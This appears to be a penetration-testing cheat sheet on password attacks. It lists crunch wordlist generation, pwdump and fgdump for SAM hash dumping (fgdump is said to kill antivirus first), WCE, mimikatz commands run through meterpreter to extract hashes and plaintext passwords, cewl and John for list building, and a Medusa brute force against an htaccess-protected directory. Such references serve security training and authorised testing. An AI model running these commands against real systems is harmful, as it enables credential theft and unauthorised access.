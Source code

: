   - Dictionary Files

    - Word lists on Kali  
            `cd /usr/share/wordlists`

  - Key-space Brute Force

    - `crunch 6 6 0123456789ABCDEF -o crunch1.txt`

    - `crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha`

    - `crunch 8 8 -t ,@@^^%%%`

  - Pwdump and Fgdump - Security Accounts Manager (SAM)

    - `pwdump.exe` - attempts to extract password hashes

    - `fgdump.exe` - attempts to kill local antiviruses before
            attempting to dump the password hashes and
            cached credentials.

  - Windows Credential Editor (WCE)

    - allows one to perform several attacks to obtain clear text
            passwords and hashes. Usage: `wce -w`

  - Mimikatz

    - extract plaintexts passwords, hash, PIN code and kerberos
            tickets from memory. mimikatz can also perform
            pass-the-hash, pass-the-ticket or build Golden tickets  
            [*https://github.com/gentilkiwi/mimikatz*](https://github.com/gentilkiwi/mimikatz)
            From metasploit meterpreter (must have System level access):

            ```
            meterpreter> load mimikatz
            meterpreter> help mimikatz
            meterpreter> msv
            meterpreter> kerberos
            meterpreter> mimikatz_command -f samdump::hashes
            meterpreter> mimikatz_command -f sekurlsa::searchPasswords
            ```

  - Password Profiling

    - cewl can generate a password list from a web page  
            `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`

  - Password Mutating

    - John the ripper can mutate password lists  
            nano /etc/john/john.conf  
            `john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`

  - Medusa

    - Medusa, initiated against an htaccess protected web
            directory  
            `medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10`
